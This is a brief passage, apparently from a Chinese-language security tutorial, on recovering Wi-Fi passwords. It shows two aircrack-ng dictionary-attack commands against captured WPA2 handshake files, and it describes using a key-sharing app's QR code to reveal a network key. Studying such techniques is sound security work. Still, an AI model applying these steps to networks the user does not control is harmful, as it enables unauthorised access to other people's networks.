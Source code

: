 ```plain
aircrack-ng -a2 -b DC:33:3D:76:55:10  -w  passwd_dic.txt test-01.cap
```

```plain
aircrack-ng -a2  -e TP-LINK二楼 -w  passwd_dic.txt test-02.cap
```

### 万能钥匙

人尽皆知的软件，目标 WIFI 存在密钥，连接即可  
[![](assets/1710899986-3e0bbbe0ff251955c5c88c17fecdf637.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303112121-1bcdf39c-d90d-1.png)  
[![](assets/1710899986-3fac87cdbab0428738fad70276a3f005.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303112129-201ce2c8-d90d-1.png)  
分享 WIFI，将二维码截图  